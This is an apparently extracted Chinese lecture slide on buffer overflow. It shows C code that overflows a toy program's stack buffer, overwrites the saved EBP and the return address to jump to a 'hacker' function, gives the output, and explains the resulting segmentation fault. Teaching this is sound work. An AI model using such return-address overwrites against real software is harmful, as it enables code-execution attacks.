

# 越界访问和缓冲区溢出
假定hacker函数对应代码首址为0x08048411，则如下代码可实施攻击
通过execve()装入test可执行文件，并将code中的字符串作为命令行参数来启动执行test。字符串中前16个字符”0123456789ABCDEF“ 被复制到buffer缓冲区，4个字符”XXXX“覆盖掉EBP，地址0x08048411覆盖掉返回地址。
执行上述攻击程序后的输出结果为：
"0123456789ABCDEFXXXX▥ ▧▥▧
being hacked
Segmentation fault
#include "stdio.h"
char code[]=
      "0123456789ABCDEFXXXX"
      "\x11\x84\x04\x08"
      "\x00";
int main(void)
{
      char *argv[3];
      argv[0]="./test";
      argv[1]=code;
      argv[2]=NULL;
      execve(argv[0],argv,NULL);
      return 0;
}
最后显示“Segmentation fault”，原因是在转到hacker函数执行时是不正常的调用，并没有保存其调用函数的返回地址，故在执行到hacker过程的ret指令时取到的“返回地址”是一个不确定的值，因而可能跳转到数据区或系统区或其他非法访问的存储区去执行，因而造成段错误。